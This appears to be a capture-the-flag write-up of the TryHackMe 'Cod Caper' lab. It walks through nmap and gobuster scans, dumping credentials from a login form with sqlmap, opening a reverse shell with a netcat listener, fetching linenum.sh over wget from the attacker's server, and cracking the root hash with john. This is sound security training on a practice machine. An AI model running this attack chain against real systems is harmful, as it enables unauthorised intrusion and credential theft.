




#The Code Caper

This is a writeup for the room [The Cod Caper at TryHackMe](https://tryhackme.com/room/thecodcaper)

I used Parrot OS to complet the room, so there might be a difference of syntax in the commands!

The target IP for me was 10.10.113.161 and that is what you will be seeing through my screenshots. Just replace by the target IP given to you when you deploy the machine.

Have fun!! 

`CryptoTzipi aka CyberLola`

VERY CUTE!! Read the story and deploy the machine!!
No answers needed for this one

We will start with our host enumeration by using nmap with the following command

`nmap -sC -A <IP> -T 4`

(the -T 4 switch is just to speed up things a little bit)

By doing that you will be able to answer all questions on task one!!

Next we will do web enumeration using the tool gobuster.
If you are unsure about the usage, just type
`gobuster -h`

and go through the different options!
For our task here, we will use 

`gobuster dir -u http://IP -w /use/your/own/file/path!!/big.txt`

I usually go with the dirb lists such as common.txt but since the task tells us to use one of the (awesome) SecLists, I complied and used it!

We find something interesting in this scan!

That concludes task 3.

Typing our findings  into a browser...

And we got ourselves a login page!! Cool!! Going ahead and digging a little more, we can see..

(you can see the same thing by just right clicking in the webpage and then clicking "View Page Source"..it's probably the easiest way, but I just wanted to share another way!!)

It is indeed an authentication page!! 

But we don't have any credentials :( ...
YET!

The task wants us to use a tool called sqlmap (it was VERY useful duing the eJPT exam!) 

WE will go ahead and use the command

`sqlmap -u http://IP/administrator.php --forms --dump`

And wait ... (hopefully you won't have to wait as long as I did!!) 

I have to apologize for the lack of screenshots showing the small table where the credentials can be seen and also the SQL injection vulnerabilities.. :(
(I forgot to take it and my machines now has long expired! N00b mistake, sorry about that)

`pingudad:secretpass`

And through the finished sqlmap scan we can find 3 SQL vulnerabilities!

SWEET!! We have credentials, so now we can just login as pingu's dad :)

we can run commands on this page! Nice!

That also means that we can easily run a reverse shell in there!

The suggestions in the room are great ( I picked one and put it in this repository, if it is easier for you)

Just make sure you change the IP ... about the port, they suggest 1234, I like my usual 7777 :)

Copy/paste it in there and BEFORE you hit ENTER, you need to start a netcat listener in your own terminal 

`nc -lvnp 7777`  (or any port you chose)

THEN hit enter in the webpage, where you pasted the shell

Take a peek at your listener and this should be able to see something like this ...

If you look closely, that also gives you the answer for a question in the task!!

Here woudl be a good time to stabilize this shell by using 

`python3 -c 'import pty;pty.spawn("/bin/bash")' `

Or dig a little longer and get another answer out of the way!!

Next we need to find the ssh password!!

I went ahead, stabilized my shell with the command above and then tried to find any file in there with "pass" in it by running

`find / -name pass* 2>/dev/null`

LOTS of output!! There's gotta be an easier/better way to do that, but that's what I came up with and it worked!

Go through all that output and one file will definitely catch your attention!!

AND ....

BOOM! We have the SSH password!!

We ssh with pingu's credentials which we obtained in the previous task.

On this task we are supposed to upload a VERY handy tool.
2 methods of achieving that are explained to us.

I am a fan of the python server + wget, so that's what we will use

Set the server on a separate tab ... (make sure you are in the same directory where you saved linenum.sh!!!)

`sudo python3 -m http.server 80`

then proceed to upload the tool by wget, from the /tmp (why? Because anyone can write into it, you don't need any privileges, making it a good spot to upload tools)

`wget http://IP:80/linenum.sh linenum.sh`

After uploading, we must make it executable by doing `chmod +x linenum.sh`

Run the tool!

Again, lots of output, so be patient and let linenum do its thing! :)

After the scan is finished, we go back and revise it carefully!!

That will answer the task's question!

Tasks 7, 8, and 9 are all about learning! There are no answers needed, but I highly suggest going through the 
material and studying it!

For our last task, the room suggests hashcat ... but even though I LOVE cats ...
I will go with john for this!

We save the hash in a text editor and name it pingu ( you can certainly name it whatever you wish!!)

The command goes

`john pingu --wordlist=/use your own path here/rockyou.txt`

BOOM!
We have the root password!!

CONGRATULATIONS!! WELL DONE!!

I hope this writeup was helpful!

Happy Hacking

                                    
                                    `CryptoTzipi aka CyberLola`

 

